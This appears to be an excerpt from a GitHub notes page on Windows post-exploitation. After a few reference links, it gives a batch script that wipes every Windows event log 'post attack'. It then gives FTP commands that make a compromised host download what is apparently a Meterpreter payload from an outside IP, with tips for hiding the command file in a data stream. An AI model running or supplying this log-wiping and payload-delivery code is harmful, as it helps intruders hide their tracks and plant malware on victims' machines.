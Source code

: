 ## Post-exploitation Techniques and Commands

* [Useful Commands for Windows Administrators](http://www.robvanderwoude.com/ntadmincommands.php) - Post-exploitation techniques and commands to elicit information from shell of compromised windows machine.
* [A-Z List of Windows Shell Commands](https://ss64.com/nt/) - A-Z Listing of all Windows CMD Commands
* [Red Team Field Manual](https://github.com/Agahlot/RTFM/blob/master/rtfm-red-team-field-manual.pdf) - Windows Post-Exploitation techniques and commands.

### Clear Log Files
A simple script to clear logs post attack.

**Create a batch file and execute it as admin.**

  @echo off
  FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
  IF (%adminTest%)==(Access) goto noAdmin
  for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
  echo.
  echo goto theEnd
  :do_clear
  echo clearing %1
  wevtutil.exe cl %1
  goto :eof
  :noAdmin
  exit
  
### Transfer files to compromised host via non-interactive shell 

In cases where you want to upload a file onto the compromised machine but you don't have an interactive shell where you simply upload the file, you can write it onto the compromised machine using FTP, feeding it one line at a time.  

**Create a blank file to write commands onto**
ftp -s:ftp_commands.txt

**Echo each command (you can also do this all in one line):**

echo open 10.9.122.8>ftp_commands.txt
echo anonymous>ftp_commands.txt
echo blah>ftp_commands.txt
echo binary>ftp_commands.txt
echo get met8888.exe>ftp_commands.txt
echo bye>ftp_commands.txt

*Instead of ftp_commands.txt, use a unique name, hide the file in a datastream, or hide the file in the folder. aka don't be obvi

### Query state of Firewall, Disable Firewall, Allow a Service Through
